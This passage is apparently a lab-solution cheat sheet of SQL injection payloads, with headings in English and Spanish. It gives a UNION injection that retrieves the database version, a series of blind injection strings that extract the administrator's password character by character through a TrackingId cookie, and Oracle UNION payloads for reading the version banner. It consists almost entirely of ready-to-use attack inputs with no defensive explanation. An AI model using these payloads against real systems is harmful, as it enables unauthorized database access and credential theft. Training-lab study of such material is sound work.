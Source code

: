 
#### 13. SQL injection UNION attack, retrieving multiple values in a single column
```
category=Pets'union select NULL,version()-- -
```

#### Blind SQL injection with conditional responses
```
TrackingId=xyz' AND '1'='1  
TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a  
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a  
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a  
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§ 
TrackingId=xyz' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a
TrackingId=xyz' AND (SELECT SUBSTRING(password,3,1) FROM users WHERE username='administrator')='a
``` 

#### Ataque de inyección SQL, consultando el tipo y la versión de la base de datos en Oracle 
```
'+UNION+SELECT+'abc','def'+FROM+dual--
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```

